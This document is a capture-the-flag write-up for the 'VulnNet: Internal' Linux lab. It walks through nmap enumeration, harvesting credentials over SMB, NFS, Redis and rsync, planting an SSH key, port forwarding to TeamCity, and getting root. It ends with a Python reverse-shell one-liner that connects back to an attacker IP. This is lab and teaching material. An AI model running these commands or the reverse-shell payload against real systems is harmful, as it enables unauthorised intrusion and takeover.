# VulNet: Internal


**Difficulty:** `Easy`

**OS:** `Linux`

**Category:** `linux, enumeration, pivoting, tunneling, privilege escalation`

**Description:**

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.  

- Difficulty: Easy/Medium
- Operating System: Linux

This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags.

Note: It _might_ take 3-5 minutes for all the services to boot.

Icon made by [Freepik](https://www.freepik.com) from [www.flaticon.com](http://www.flaticon.com)
# Service Flag

Nmap scan:

```shell
# Nmap 7.94SVN scan initiated Fri Apr  5 12:13:50 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan 10.10.200.161
Warning: 10.10.200.161 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.200.161
Host is up (0.14s latency).
Not shown: 65360 closed tcp ports (reset), 164 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36315/tcp6  mountd
|   100005  1,2,3      36775/tcp   mountd
|   100005  1,2,3      39762/udp6  mountd
|   100005  1,2,3      51037/udp   mountd
|   100021  1,3,4      35037/tcp   nlockmgr
|   100021  1,3,4      43333/tcp6  nlockmgr
|   100021  1,3,4      45345/udp   nlockmgr
|   100021  1,3,4      55490/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp   open  rsync       (protocol version 31)
2049/tcp  open  nfs_acl     3 (RPC #100227)
6379/tcp  open  redis       Redis key-value store
35037/tcp open  nlockmgr    1-4 (RPC #100021)
36775/tcp open  mountd      1-3 (RPC #100005)
43857/tcp open  mountd      1-3 (RPC #100005)
55297/tcp open  mountd      1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/5%OT=22%CT=1%CU=36901%PV=Y%DS=2%DC=T%G=Y%TM=660FD
OS:D6D%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=B)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=
OS:I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%
OS:O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W
OS:6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-04-05T11:15:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2024-04-05T13:15:53+02:00
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   136.09 ms 10.8.0.1
2   136.19 ms 10.10.200.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  5 12:15:57 2024 -- 1 IP address (1 host up) scanned in 127.52 seconds

```

SMB server running on port 445.

Listing shares:



Accessing the share `shares` and downloading the files





Service Flag obtained



# Internal Flag

NFS is running on port 2049, we can check for mounts


```shell
showmount -e IP
```

Mount:



```shell
sudo mount -t nfs IP:'/PATH/TO/MOUNT' /PATH/TO/MOUNT/TO
```

Contents of the `/mnt` directory



To save time we can look for the word `pass` in all files in our current directory and sub directories


We have a redis password

**Redis Authentication**

**By default** Redis can be accessed **without credentials**. However, it can be **configured** to support **only password, or username + password**. It is possible to **set a password** in _**redis.conf**_ file with the parameter `requirepass` **or temporary** until the service restarts connecting to it and running: `config set requirepass p@ss$12E45`. Also, a **username** can be configured in the parameter `masteruser` inside the _**redis.conf**_ file. [source](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

We can use this to login to redis 




```shell
redis-cli -h 10.10.200.161 -p 6379
```

Internal flag obtained:



We could have also easily used `redis-dump`


```shell
redis-dump -h IP -p PORT -a PASSWORD
```

# User Flag

Decoding the base64 code from redis-dump output



We have a login format and password for rsync.

Looking through hacktricks, we can use this syntax




```shell
rsync -av rsync://rsync-connect@10.10.200.161/files rsync/ 
```

We are able to transfer all files of the user `sys-internal` to a directory on our machine `rsync`

`cd` into the folder and obtain user flag



Now to gain access to the machine, we can upload an authorized SSH key to the user's `sys-internal` .ssh directory then login to the machine via ssh.

First up is to generate an SSH key:



```shell
ssh-keygen -t rsa -b 2048 -f id_rsa
```

Enter any passphrase you want.

We now have a private and a public key



Rename the public key to `authorized_keys`



Transfer the key to the machine using rsync



```shell
rsync -av authorized_keys rsync://rsync-connect@10.10.200.161/files/sys-internal/.ssh
```

Login using ssh and the private key. Enter the passpharse set earlier



# Root Flag

Taking a look at the root `/`  directory, there is a folder named `TeamCity`. Inside of that folder is a text file indicating a service running locally



Using linpeas to confirm


We can just use ssh to perform port forwarding so the site can be accessible on our machine



```shell
ssh -L 8081:127.0.0.1:8111 -i id_rsa sys-internal@10.10.200.161
```

This is basically mapping the service running locally on the machine's port 8111 port 8081 on our machine

Visiting the site `localhost:8081`



We can click on `log in as a Super User`

This takes us to a page requesting for Authentication token



Looking online for Teamspeak default credentials led to this post



It is stated that we can find the token in logs\teamcity-server.log file.

Going back to the machine



We don't have access to read this file.

The only files we are able to read in the entire directory are these 4



Checking the contents of the 1st one `catalina.out`



At the end of the file we are able to obtain a super user token

Using this, we can login to the site as a super user




Searching online for `TeamCity Reverse shell` led me to this [page](https://exploit-notes.hdks.org/exploit/web/teamcity-pentesting/)

Going to this section and following every single step will lead to a shell as root





Reverse shell payload

```shell
`export RHOST="10.8.129.243";export RPORT=1234;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`
```

Save the build and run.

Root flag obtained.




The End. 🤝

